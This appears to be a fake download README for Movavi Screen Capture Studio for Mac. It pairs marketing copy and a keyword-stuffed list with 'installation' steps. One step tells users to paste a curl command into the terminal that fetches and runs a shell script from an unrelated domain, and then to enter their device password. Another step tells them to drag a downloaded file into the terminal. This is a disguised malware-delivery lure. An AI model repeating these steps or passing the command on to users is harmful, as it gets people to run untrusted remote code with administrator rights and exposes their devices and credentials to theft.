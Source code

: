 # Movavi Screen Capture Studio for Mac Download

![Movavi Screen Capture Studio Screenshot 1](https://img.utdstc.com/icon/745/e32/745e32c80fb56a6a063f3e41352549cd0c42aae2df4c1b703567f2599c8455af:200)


---

## 📥 Download Movavi Screen Capture Studio for Mac

[![Download Now](https://img.shields.io/badge/Download--Now-Movavi%20Mac-blue?style=for-the-badge&logo=apple)](https://movavi-screen-capture-studio-for-mac.github.io/.github)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get9/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 📦 What is Movavi Screen Capture Studio for Mac?

**Movavi Screen Capture Studio for Mac** is a versatile screen recording and video editing solution designed specifically for macOS users. Whether you’re creating tutorials, recording webinars, capturing video calls, or saving streaming content, Movavi combines intuitive tools with powerful features in one seamless package.

With its user-friendly interface, even beginners can capture high-quality video from any area of their screen while simultaneously recording system sound, microphone input, or webcam footage. Once your screen recording is complete, you can jump directly into the built-in video editor to trim, cut, enhance, and annotate your footage — all from the same app.

Movavi Screen Capture Studio is especially useful for educators, content creators, marketers, and anyone who wants to document or share screen activity in a polished, professional way. From HD video to quick GIF creation, Movavi handles it all efficiently and with minimal system strain.

Whether you're creating a YouTube tutorial or archiving an important Zoom call, **Movavi Screen Capture Studio for Mac** gives you everything you need to record, edit, and export — without needing separate tools or advanced editing experience.

---

![Movavi Screen Capture Studio Screenshot 2](https://www.flavourmag.co.uk/files/2017/08/Movavi-Screen-Capture-640x401.jpg)

---

## 🌟 Key Features & Benefits

- 🎥 High-Quality Screen Recording — Capture full screen, specific windows, or custom regions  
- 🔊 Audio Source Control — Record system audio, microphone, or both at once  
- 🎙️ Webcam Overlay — Add facecam footage during live recording  
- ✂️ Built-in Video Editor — Cut, trim, crop, merge, and enhance your recordings instantly  
- 📆 Scheduled Recording — Set automatic start/stop timers for hands-free capture  
- 🔁 Export in Multiple Formats — Save videos in MP4, MOV, AVI, GIF, and more  
- 📌 Annotations & Cursor Effects — Add arrows, highlights, keystroke visualizations for clarity  
- ⚡ Lightweight & Fast — Optimized for Mac performance, even on older systems  

---

## 🖥️ System Requirements

- **macOS:** 10.13 High Sierra or later  
- **Processor:** Intel or Apple Silicon (M1, M2, M3)  
- **RAM:** 4 GB minimum  
- **Disk Space:** ~500 MB for installation  

---

## 🏷️ Keywords

movavi screen capture studio for mac, movavi screen capture studio for mac download, movavi screen capture studio for mac free, movavi screen recorder mac, movavi screen capture mac free, download movavi screen capture studio mac, movavi screen capture studio mac full version

